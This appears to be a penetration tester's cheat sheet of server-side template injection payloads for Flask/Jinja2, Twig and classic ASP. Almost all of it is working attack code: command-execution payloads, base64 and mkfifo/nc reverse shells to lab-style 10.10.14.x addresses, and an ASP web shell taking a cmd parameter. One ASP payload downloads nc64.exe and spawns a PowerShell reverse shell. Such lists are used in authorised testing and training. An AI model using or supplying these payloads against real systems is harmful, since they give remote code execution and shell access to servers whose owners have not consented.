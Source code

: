 
**Testing**
```
<%=“testing execution” %>
<% Response.Write("testing execution") %>
${{<%[%""]}}%\.
```

## Flask Payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
`echo -n 'sh -i >& /dev/tcp/10.10.14.11/443 0>&1' | base64`
```
{{ namespace.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('echo "BASE64" |base64 -d| bash').read() }}   (bash / sh)
{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}BASE64${IFS}|base64${IFS}-d|bash').read()}}
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f~')\")()}}
```


## Twig Payloads
```
{{['id']|filter('system')}}
{{['bash -c "bash -i >& /dev/tcp/10.10.14.23/7788 0>&1"']|filter('system')}}
```

## ASP Payload (windows)
```
<% 
Set shell = CreateObject("WScript.Shell") 
Set proc = shell.exec("whoami") 
Response.Write(proc.StdOut.ReadAll) 
%>


<% 
Set shell = CreateObject("WScript.Shell") 
Set proc = shell.exec(request("cmd")) 
Response.Write(proc.StdOut.ReadAll) 
%>
(提交后访问 ?cmd=whoami)

<% 
Set shell = CreateObject("WScript.Shell") 
Set proc = shell.exec("powershell -c curl -outfile C:\nc64.exe http://10.10.14.6/nc64.exe; C:\nc64.exe -e powershell 10.10.14.6 444") 
Response.Write(proc.StdOut.ReadAll) 
%>
```
